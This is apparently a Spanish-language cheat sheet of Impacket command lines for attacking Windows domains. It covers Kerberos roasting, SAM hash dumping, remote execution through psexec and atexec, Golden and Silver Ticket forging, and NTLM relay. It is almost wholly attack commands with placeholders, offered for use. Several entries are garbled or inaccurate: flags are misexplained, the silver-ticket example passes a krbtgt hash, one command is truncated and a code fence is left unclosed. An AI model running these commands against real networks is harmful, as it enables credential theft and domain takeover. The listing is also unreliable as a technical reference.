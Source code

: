 ### impacket-GetNPUsers:
Descripción: Extrae tickets TGT (Ticket Granting Ticket) sin necesidad de autenticación de contraseña, utilizando el protocolo Kerberos.
```python
impacket-GetNPUsers DOMAIN/USER -dc-ip <domain_controller_ip>
```
### impacket-psexec:
Descripción: Ejecuta comandos en un sistema remoto utilizando el servicio PsExec.
```python
impacket-psexec.py DOMAIN/USER:PASSWORD@TARGET_HOST CMD.EXE
```
### impacket-rpcdump:
Descripción: Realiza una enumeración de RPC en un host remoto.
```python
impacket-rpcdump.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-secretsdump:
Descripción: Extrae contraseñas almacenadas en la SAM (Security Accounts Manager) de un sistema Windows.
```python
impacket-secretsdump.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-GetUserSPNs:
enumerar los SPNs asociados a un usuario específico o a todos los usuarios en un dominio.
```python
impacket-GetUserSPNs.py -request <USER>:<PASSWORD> -dc-ip <DOMAIN_CONTROLLER_IP> <DOMAIN>/<USER>
```
### impacket-GetUserSPNs
Obtención del TGS: Una vez que hayas identificado el SPN deseado, puedes solicitar un TGS para ese SPN utilizando `GetUserSPNs
```python
impacket-GetUserSPNs.py <USER>:<PASSWORD> -spn <SPN_TO_TARGET> -dc-ip <DOMAIN_CONTROL
```
### impacket-ticketer Golden Ticket:
Para solicitar un Golden Ticket con Impacket, puedes usar `ticketer.py`. Aquí tienes un ejemplo de cómo hacerlo:
```python
impacket-ticketer.py -nthash <USER_NT_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN_NAME> -sid <USER_SID> -krbtgt <KRBTGT_HASH> -des <DESCRIPTOR> -rc4 <RC4_HASH> <USER_NAME>
```
Donde:    
    - `<USER_NT_HASH>` es el hash NT (hash de la contraseña) del usuario.
    - `<DOMAIN_SID>` es el SID (identificador de seguridad) del dominio.
    - `<DOMAIN_NAME>` es el nombre del dominio.
    - `<USER_SID>` es el SID del usuario.
    - `<KRBTGT_HASH>` es el hash del usuario KRBTGT.
    - `<DESCRIPTOR>` es el descriptor de seguridad del usuario (opcional).
    - `<RC4_HASH>` es el hash RC4 (opcional).
    - `<USER_NAME>` es el nombre de usuario del usuario.
### impacket-ticketer Silver Ticket:
Para solicitar un Silver Ticket con Impacket, también puedes usar `ticketer.py`. Aquí tienes un ejemplo de cómo hacerlo:
```python
impacket-ticketer.py -nthash <USER_NT_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN_NAME> -sid <USER_SID> -krbtgt <KRBTGT_HASH> -spn <SERVICE_SPN> <USER_NAME>
-----------------------------------------------
Donde:
    
    - `<USER_NT_HASH>` es el hash NT (hash de la contraseña) del usuario.
    - `<DOMAIN_SID>` es el SID (identificador de seguridad) del dominio.
    - `<DOMAIN_NAME>` es el nombre del dominio.
    - `<USER_SID>` es el SID del usuario.
    - `<KRBTGT_HASH>` es el hash del usuario KRBTGT.
    - `<SERVICE_SPN>` es el Service Principal Name (SPN) del servicio al que deseas acceder.
    - `<USER_NAME>` es el nombre de usuario del usuario.
### impacket-atexec:
Descripción: Permite ejecutar comandos en un sistema remoto utilizando el servicio Task Scheduler (programador de tareas).
```python
impacket-atexec.py DOMAIN/USER:PASSWORD@TARGET_HOST COMMAND
```
### impacket-dpapi:
Descripción: Proporciona herramientas para manipular DPAPI (Data Protection API) en sistemas Windows.
```python
impacket-dpapi.py
```
### impacket-esentutl:
Descripción: Permite interactuar con bases de datos ESENT (Extensible Storage Engine) en sistemas Windows.
```python
impacket-esentutl.py
```
### impacket-getArch:
Descripción: Obtiene la arquitectura del sistema remoto (32 o 64 bits).
```python
impacket-getArch.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlclient:
Descripción: Un cliente interactivo de SQL Server que se puede utilizar para ejecutar consultas SQL y comandos en un sistema remoto que ejecuta SQL Server.
```python
impacket-mssqlclient.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlinstance:
Descripción: Enumera las instancias de SQL Server en un sistema remoto.
```python
impacket-mssqlinstance.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlping:
Descripción: Realiza un ping a un servidor SQL para verificar la disponibilidad.
```python
impacket-mssqlping.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlservice:
Descripción: Enumera los servicios de SQL Server en un sistema remoto.
```python
impacket-mssqlservice.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-ntlmrelayx:
Descripción: Se utiliza para realizar ataques de relé NTLM en redes corporativas.
```python
impacket-ntlmrelayx.py -tf targets.txt
```